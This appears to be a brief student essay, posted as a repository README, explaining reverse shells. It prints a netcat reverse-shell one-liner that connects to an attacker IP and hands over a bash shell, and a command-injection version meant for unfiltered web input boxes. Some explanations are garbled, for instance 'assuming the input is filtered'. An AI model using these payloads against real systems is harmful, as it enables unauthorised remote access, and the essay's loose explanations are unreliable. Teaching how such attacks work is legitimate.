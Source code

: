 **I did this in 20-30 minutes in class off the top of my head, as my previous changes didnt get pushed**

# What hacking is really like

In an age where technology runs just about everything, one might find themselves wondering how can someone sitting in their bedroom cause millions of dollar of damages or commit massive crippling attacks against government states. We're going to look at how an actual attack could work using a reverse shell.

# What is a reverse shell
A reverse shell is a peice of software written usually in common lanauges that runs on most machines, that sits and listens for commands from another machine across the internet. Its purpose to give remote access to a user, usually an attacker, to send commands directly to the host machines command line

```
nc 172.89.23.156 4444 -e /bin/bash
```

This is a basic reverse shell, using NetCat, what this effectivelty does is attempt to connect to a machine, in this case my attacking machine through the internet. IT attempts to connect to a listening serive on port ```4444``` and upon successful connection. MY attacking machine will have a shell open on the host machine awaiting whatever commands i may want to give.

# Dissecting the shell

```
nc $ip $port [arguments]
```
```nc``` is [NetCat](https://en.wikipedia.org/wiki/Netcat). Netcat is a tool built into many modern machines running today that allows the user to interact with the internet through the command line, in this case allowing me to forward a shell to my offensive machine.

```&ip``` Referse to the ip address your attacking machine is.

```$port``` Refers to the port your attacking machine is listening on.

```[arguments]``` Referse to possible arguments you can pass, such as in this case, the ```-e``` argument

The reason we pass ```-e /bin/bash``` into the ```[Arguments]``` block is becuase that is what makes all the magic of this reverse shell. We utilize the [*bash*](https://en.wikipedia.org/wiki/Bash_(Unix_shell)) shell by getting its path and feeding it to NEtCat via the ```-e``` argument. This forwards the a bash shell towards the offensive machine allowing it to utilize the victim machine's command line.
# How can i get NEtCat to run without already having a RevShell?

Well some websites may not check what input you give them, such as this website.

![image](https://github.com/SofiaBennet/RevShell-ESSAY/assets/54598875/378075a2-a31d-4952-9f4e-fd8282f10f7a)

```php
; nc 172.89.245.133 4444 -e /bin/bash
```
This simple command fed into any input box, such as google's search box has the potential to cause some serious damages assuming the input is filtered.
Obviously it's not that easy and it is super common to filter all input form's user input to prevent security issues.
